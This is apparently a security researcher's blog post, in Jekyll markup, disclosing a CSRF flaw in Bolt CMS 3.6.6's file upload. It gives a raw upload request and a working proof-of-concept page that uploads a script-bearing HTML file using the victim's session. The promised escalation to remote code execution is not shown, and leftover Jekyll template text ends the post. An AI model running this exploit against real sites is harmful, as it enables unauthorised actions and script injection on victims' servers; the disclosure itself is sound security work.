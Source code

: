 ```yaml
---
layout: post
---
```

A few days ago I started taking interest in Bolt, a content management that quoting from its github, is a "[Sophisticated, lightweight & simple CMS][bolt]".

The team behind it really did a great job in making the CMS easy to use, and packed with a lot of features. I truly recommend you checking out their project if you are looking for a cool new CMS to use.

<img src="images/2020-40-20-From-CSRF-to-RCE_01.png">

## Affected Version

Bolt CMS 3.6.6 - It is possible that lower versions are vulnerable as well.

## Explanation

It is common to find some vulnerabilities that alone don't actually create a good case, like CSRF and some types of XSS, so it's up to the attacker to make use of them and create creative ways to chain attacks.

In this post, I will be showing how it was possible to obtain Remote Code Execution through a Cross Site Request Forgery in Bolt CMS.

## Starting with CSRF

This flaw exists in the file upload section called "Files on the Stack", available for users that can manage content for the Homepage, Pages, Entries and Blocks.

You may think, CSRF on file upload? What can I do with this? Can I pwn the server sending PHP? No, BUT you can upload HTML files!

{% highlight text %}
POST /bolt/upload HTTP/1.1
Host: victim.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://victim.com/bolt/editcontent/homepage
X-Requested-With: XMLHttpRequest
Content-Length: 227
Content-Type: multipart/form-data; boundary=---------------------------6228775941835128519569528722
Connection: close
-----------------------------6228775941835128519569528722
Content-Disposition: form-data; name="files[]"; filename="test.html"
Content-Type: text/markdown

<html><script>alert("hi");</script></html>

-----------------------------6228775941835128519569528722--
{% endhighlight %}

This means that we, attackers, can execute arbitrary JavaScript in the same context as the application with the authenticated user privileges, which you will see how important it is for the attack.

A simple code to exploit CSRF and upload an HTML file is provided below (with the help of Burp Pro), it will upload a "test.html" file that can be located in a default path for every bolt installation: "/files/YEAR-MONTH" in my case: "victim.com/files/2019-04/test.html":

{% highlight html %}
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/127.0.0.1\/bolt\/upload", true);
        xhr.setRequestHeader("Accept", "application\/json, text\/javascript, *\/*; q=0.01");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------6228775941835128519569528722");
        xhr.withCredentials = true;
        var body = "-----------------------------6228775941835128519569528722\r\n" + 
          "Content-Disposition: form-data; name=\"files[]\"; filename=\"test.html\"\r\n" + 
          "Content-Type: text/markdown\r\n" + 
          "\r\n" + 
          "\x3chtml\x3e\x3cscript\x3ealert(\"hi\");\x3c/script\x3e\x3c/html\x3e\n" + 
          "\r\n" + 
          "-----------------------------6228775941835128519569528722--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
{% endhighlight %}


Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[bolt]: https://bolt.cm/
